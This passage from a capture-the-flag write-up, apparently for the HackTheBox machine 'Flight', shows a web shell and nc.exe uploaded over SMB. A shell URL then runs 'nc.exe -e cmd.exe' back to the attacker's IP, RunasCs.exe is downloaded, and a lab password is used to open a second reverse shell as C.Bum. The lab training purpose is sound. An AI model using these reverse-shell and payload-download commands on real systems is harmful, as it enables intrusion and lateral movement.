putting file shell.php as \school.flight.htb\images\shell.php (1.5 kb/s) (average 1.5 kb/s)
smb: \school.flight.htb\images\> ls
  .                                   D        0  Thu Nov 19 23:39:57 2026
  ..                                  D        0  Thu Nov 19 23:39:57 2026
  background.gif                      A     2718  Mon Nov 14 13:49:28 2011
  background.jpg                      A    39745  Fri Nov  4 16:16:00 2011
  bg-content.gif                      A     9204  Mon Nov 14 16:44:40 2011
  bg-footer.gif                       A     1194  Fri Nov  4 16:39:50 2011
  bg-header.gif                       A     1307  Fri Nov  4 16:39:58 2011
  bg-header2.jpg                      A    69769  Mon Nov 14 13:49:28 2011
  bg-home.gif                         A     6638  Mon Nov 14 16:44:40 2011
  bg-menu.gif                         A     1189  Thu Nov 10 16:25:58 2011
  icon-facebook.gif                   A     1552  Thu Nov 10 16:25:58 2011
  icon-twitter.gif                    A     1455  Thu Nov 10 16:25:58 2011
  icon-youtube.gif                    A     2159  Thu Nov 10 16:25:58 2011
  logo.gif                            A     7391  Mon Nov 14 13:49:28 2011
  model1.jpg                          A     7662  Tue Oct 25 16:17:06 2011
  model2.jpg                          A    10087  Tue Oct 25 16:18:04 2011
  model3.jpg                          A    15474  Fri Nov  4 16:16:00 2011
  shell.php                           A       35  Thu Nov 19 23:39:57 2026
```

We can navigate to the shell and confirm that it is working.



Now, we can also upload ```nc.exe``` to the remote machine and use the webshell to initiate a connection back to a listener to get a reverse shell.

```
smb: \school.flight.htb\images\> put nc.exe
putting file nc.exe as \school.flight.htb\images\nc.exe (1611.1 kb/s) (average 708.2 kb/s)
```

After navigating to this url: ```http://school.flight.htb/images/shell.php?cmd=nc.exe%20-e%20cmd.exe%2010.10.15.194%204444```

We catch a shell as ```svc_apache```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dlszgby3kh]─[~]
└──╼ [★]$ rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.228.120 58859
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\school.flight.htb\images>whoami
whoami
flight\svc_apache
```

There is a ```development``` directory in ```C:\inetpub```, which is interesting.

```
C:\inetpub>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1DF4-493D

 Directory of C:\inetpub

11/19/2026  08:52 PM    <DIR>          .
11/19/2026  08:52 PM    <DIR>          ..
09/22/2022  11:24 AM    <DIR>          custerr
11/19/2026  08:52 PM    <DIR>          development
09/22/2022  12:08 PM    <DIR>          history
09/22/2022  11:32 AM    <DIR>          logs
09/22/2022  11:24 AM    <DIR>          temp
09/22/2022  11:28 AM    <DIR>          wwwroot
               0 File(s)              0 bytes
               8 Dir(s)   5,136,003,072 bytes free
```

This directory is writable by ```C.bum```, which we have access to.

```
C:\inetpub>icacls development
icacls development
development flight\C.Bum:(OI)(CI)(W)
            NT SERVICE\TrustedInstaller:(I)(F)
            NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
            NT AUTHORITY\SYSTEM:(I)(F)
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
            BUILTIN\Administrators:(I)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
            BUILTIN\Users:(I)(RX)
            BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

I wonder if the development site is being hosted on an internal port that's not accessible to us from our attack box.

Port 8000 seems of interest.

```
C:\inetpub>netstat -ano | findstr LISTENING
netstat -ano | findstr LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       5600
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       932
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       5600
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       932
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2480
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       508
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1200
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1712
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49677          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49678          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49690          0.0.0.0:0              LISTENING       3096
  TCP    0.0.0.0:49698          0.0.0.0:0              LISTENING       3048
  TCP    0.0.0.0:50523          0.0.0.0:0              LISTENING       648
```

```C.bum``` is a member of a nonstandard ```WebDevs``` group, but as we have seen before, we cannot get remote access.

```
C:\inetpub>net user C.bum
net user C.bum
User name                    C.Bum
Full Name                    
Comment                      Senior Web Developer
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/22/2022 12:08:22 PM
Password expires             Never
Password changeable          9/23/2022 12:08:22 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/22/2022 1:50:24 PM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *WebDevs              
```

We can use ```RunasCs``` to get around this problem.

Let's download it to the remote machine.

```
C:\inetpub>powershell -c wget http://10.10.15.194:8000/RunasCs.exe -outfile C:\Users\svc_apache\Desktop\RunasCs.exe
```

Now we can run this using ```C.bum```'s credentials, initiating a reverse connection back to us on another listener.

```
C:\Users\svc_apache\Desktop>.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.15.194:4443 cmd
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.15.194:4443 cmd
[*] Warning: The logon for user 'C.Bum' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-830a2$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 5620 created in background.
```

We have a shell as ```C.bum```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dlszgby3kh]─[~]
└──╼ [★]$ rlwrap nc -lvnp 4443
Listening on 0.0.0.0 4443
Connection received on 10.129.228.120 52984
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
flight\c.bum
```

We can proceed to get the user flag from here.

## Root Flag

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
